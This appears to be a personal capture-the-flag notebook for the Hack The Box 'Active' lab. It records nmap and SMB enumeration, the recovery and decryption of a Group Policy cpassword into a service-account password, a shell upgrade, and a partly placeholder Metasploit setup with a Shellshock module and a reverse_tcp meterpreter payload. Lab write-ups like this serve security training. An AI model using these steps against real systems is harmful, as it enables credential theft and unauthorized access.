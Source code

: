 # active, flow

## Summary

+ the full nmap scan took 1666.20 seconds (27 minutes), in the exam, find web server first.

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 10.129.96.185
  # rename-tab
sudo vim /etc/hosts
```

> 53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
> 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos -> ldap open

+ an the kerberos server usually also has an open ldap and folder share service.

> 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)

## dns-lookup

```sh
nslookup
> server 10.129.96.185
> 127.0.0.1
  # reverse dns
  # 1.0.0.127.in-addr.arpa  name = localhost.
> 10.129.96.185
  # no return
```

```sh
dnsrecon -d 10.129.96.185 -r 10.129.96.0/24
  # 5 seconds, no result
dnsrecon -d 10.129.96.185 -r 10.0.0.0/8
  # background
```

## detailed enum with nmap

```sh
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -e 'default\|version' | grep 'smb'
  # locate -r use regex
  # the default scripts is  only a few
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -v -e 'default\|version' | grep 'smb' | grep -e 'safe'
nmap --script-help '(smb* and safe) and not (default or version)'
nmap --script '(smb* and safe) and not (default or version)' -p 445 active.htb
  # 30s
nmap --script 'smb-enum-services' -p 445 active.htb -d
  # -d to debug -> the script does not support SMBv2
```

## try with smbclient

```sh
smbclient -L active.htb
  # -L list <host>
  # only folder 'Replication' accessible, READONLY.
```

```sh
smbmap -H active.htb
smbmap -R Replication -H active.htb
  # -R <dirName> Recursively list dirs and files.
smbmap -R Replication -H active.htb -A '.*' --depth 40
  # -A find files that match(regex), and auto download.
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf

  # in which, the Groups.xml contains account info
  # cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" ... userName="active.htb\SVC_TGS"
```

+ ref: [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py)

```sh
gpp-decrypt <cpassword>
  # from MS doc, the AES key of cpassword is key 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
  # which is actually AES-256-CBC with IV '\x00' *16 
  # GPPstillStandingStrong2k18
```

## try the account

```sh
smbmap -H active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' -x 'net user'
  # [!] Authentication error on active.htb
```

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
